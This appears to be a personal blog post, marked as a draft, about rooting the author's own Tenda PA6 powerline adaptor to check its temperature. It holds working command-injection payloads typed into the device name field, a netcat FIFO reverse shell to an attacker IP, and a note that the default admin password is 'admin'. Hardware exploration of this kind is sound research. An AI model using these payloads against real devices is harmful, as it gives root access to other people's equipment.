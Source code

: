 ```yaml
---
title: "Breaking into your Tenda PA6 Powerline adaptor"
date: 2023-09-10T11:25:58+01:00
description: "Using a command injection to get a root shell on a Tenda PA6 Powerline adaptor"
keywords: ["infosec", "tenda pa6", "powerline"]
draft: true
tags: ["projects", "security"]
math: false
toc: false
---
```


{{< image path="tenda-pa6.jpg" alt="My Tenda PA6 in the attic" >}}

So I have a little Tenda PA6 Powerline/HomePlug WiFi extender that I use as an additional WAP in the attic room of my house. This room has been getting very hot recently (around 35 °C), and when I touch the device it feels to be at least 60 °C. Tenda's website says that the PA6 can operate in temperatures up to 40 °C, but I wanted to see if I could get some temperature readings out of the device to see how hot it is actually getting. 

What I should have done here is buying an infrared thermometer, but where is the fun in that?

Conveniently for me, some security researchers from IBM have already made a [pretty comprehensive write-up](https://securityintelligence.com/posts/vulnerable-powerline-extenders-underline-lax-iot-security/) of all the holes in the PA6. In typical vendor fashion, Tenda have not fixed any of these issues in the 3 years since they published the article. The researchers provide 3 exploits for the device, an authed Command Injection, an authed Buffer Overflow, and a pre-auth DoS. As I have the admin password (the default is `admin` 🤦), I decided to go with the Command Injection, which I figured would be the easiest to exploit.

{{< image path="tenda-powerline-settings.png" alt="Screenshot of the Powerline settings page on the Tenda PA6" >}}

The Command Injection issue is as basic as it gets. On the device's powerline settings page, you can change the names of the other PLCs on the network. Unfortunately, this name change is done by simply `sprintf`'ing the raw user input into a string, which is then executed as a command on the system, as root. This means you just need to put a little `" ;` in your chosen name, and then you can run any command present on the device. The security researchers don't quite spell out how to exploit this, but even I managed it after a few hours of head scratching.

Conveniently, the PA6 has BusyBox installed, which has a `netcat` binary for us to use --- I found out about this from a [GitHub gist](https://gist.github.com/Weissnix4711/eeb54186469d313d07ffb44d00344a3f) listing all the files in the firmware image. As I wanted a shell on the PA6, we can use `netcat` to pipe a shell session over a TCP socket back to my attacker PC (a reverse shell). 

To do this you first need to spin up a `netcat` listener on your attacker PC, which will listen for incoming connections. I did this with `nc -lvp 4444`. Note in this example my attacker PC has the IP address `192.168.1.100`.

Then we begin to work on the PA6, pasting our commands into one of the PLC device name fields. The version of `nc` on the PA6 doesn't have the convenient `-e` option that handles executing a command for you, so instead we have to do a dance with a named FIFO pipe [^1]. You first paste in:

[^1]: The PA6 uses a very old version of BusyBox, v1.17.2, which was released in August 2010. Weirdly it was compiled 8 years later, on `2018-01-22 01:08:54`. From digging in the source code, it seems the `-e` switch was available in BusyBox v1.17.2's `nc`, but it seems to have been compiled without the `NC_EXTRA` option.

```bash
a" ; mknod /tmp/f p #
```

Here `a` is just a placeholder name. You can then set up the reverse shell by pasting the following into the same field [^2]:

[^2]: You'd normally do this in a single step, but this field only accepts 63 characters. I'm assuming this is just a client side limit, so you could probably sidestep it by sending the request with `curl` or something. 

```bash
a" ; cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.100 4444 >/tmp/f #
```

What we are doing here is passing whatever comes out of the `/tmp/f` pipe into the `stdin` of the shell. We then pipe the `stdout` and `stderr` of the shell into `netcat`, which will send it back to our attacker PC. Finally, we redirect the `stdout` of `netcat` (which is whatever commands we input on the attacker PC), back into the `/tmp/f` pipe. This gives us a poor man's SSH session on the PA6.

`netcat` on your attacker PC should then print some message like:

```bash
Ncat: Connection from 192.168.1.XX.
Ncat: Connection from 192.168.1.XX:XXXXX.

BusyBox v1.17.2 (2018-01-22 01:08:54 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

Now you can explore! Here is `/proc/cpuinfo`, (some of) `/proc/meminfo` and `/proc/version`:

```bash
# cat /proc/cpuinfo
system type             : 960500WIFI_P201
processor               : 0
cpu model               : Broadcom BMIPS3300 V3.3
BogoMIPS                : 397.31
wait instruction        : yes
microsecond timers      : yes
tlb_entries             : 32
extra interrupt vector  : no
hardware watchpoint     : no
ASEs implemented        :
shadow register sets    : 1
kscratch registers      : 0
core                    : 0
VCED exceptions         : not available
VCEI exceptions         : not available

# cat /proc/meminfo
MemTotal:          29468 kB
MemFree:            1288 kB
Buffers:             700 kB
Cached:             3808 kB
SwapCached:            0 kB
Active:             5680 kB
Inactive:           2028 kB
[...]
VmallocTotal:    1032116 kB
VmallocUsed:        2784 kB
VmallocChunk:    1025180 kB

# cat /proc/version
Linux version 3.4.11-rt19 (root@localhost.localdomain) (gcc version 4.6.2 (Buildroot 2011.11) ) #1 PREEMPT Mon Jan 22 01:07:36 CST 2018
```

A whole 32 MB of RAM! Here is `top`:

```bash
Mem: 28240K used, 1228K free, 0K shrd, 740K buff, 3816K cached
CPU:   0% usr   5% sys   0% nic  93% idle   0% io   0% irq   0% sirq
Load average: 0.84 0.78 0.78 1/47 17193
  PID  PPID USER     STAT   VSZ %MEM CPU %CPU COMMAND
  250     2 admin    SW       0   0%   0   5% [wl0-kthrd]
  217     2 admin    SW       0   0%   0   1% [bcmsw_rx]
17147 15971 admin    R     1712   6%   0   0% top
  588   294 admin    S     5348  18%   0   0% httpd -m 0
  415   294 admin    S     4704  16%   0   0% wlmngr -m 0
  422   421 admin    S     4704  16%   0   0% wlmngr -m 0
  421   415 admin    S     4704  16%   0   0% wlmngr -m 0
  418   294 admin    S     3888  13%   0   0% homeplugd -m 0
  295   294 admin    S     3848  13%   0   0% ssk
  420   419 admin    S     3784  13%   0   0% consoled
  294     1 admin    S     3504  12%   0   0% /bin/smd
  416   294 admin    S     3428  12%   0   0% plcnvm -m 0
  543     1 admin    S     1948   7%   0   0% /bin/nas
  310   294 admin    S     1764   6%   0   0% syslogd -n -C -l 7
  565     1 admin    S     1712   6%   0   0% /bin/acsd
15971 15966 admin    S     1712   6%   0   0% /bin/sh -i
    1     0 admin    S     1708   6%   0   0% init
15966   588 admin    S     1708   6%   0   0% sh -c homeplugctl remote_set --rem
  419     1 admin    S     1708   6%   0   0% -/bin/sh -l -c consoled
15972 15966 admin    S     1704   6%   0   0% nc 192.168.1.100 4444
```

Unfortunately, I couldn't actually find any way of reading any temperature sensors on the device. I tried looking in `/sys/class/thermal`, and a couple of other places, but nothing seemed to present itself. Presumably this SOC just doesn't have any temperature sensors.